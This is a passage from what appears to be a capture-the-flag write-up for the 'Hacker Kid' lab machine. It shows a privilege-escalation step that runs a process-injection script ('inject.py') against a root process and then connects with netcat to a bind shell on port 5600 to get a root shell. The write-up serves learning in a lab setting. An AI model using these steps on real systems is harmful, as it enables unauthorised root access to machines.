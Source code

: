 ```bash
# change this PID accordingly
python2.7 inject.py 970 
```

![process.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/d2095359-d44f-429b-a5af-23bc060a36c7.png)

![upload-payload.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/fa29f639-3c76-4cb4-a5e3-cf9f513fac29.png)

---

![payload-upload.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/fd4131cc-1635-426f-9938-3f2dffe26a98.png)

- Now start another netcat listening on port 5600

```bash
nc <target_IP> 5600
```

- Successfully get a root shell

![root.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/10c0c02d-fe51-438a-be31-238160478529.png)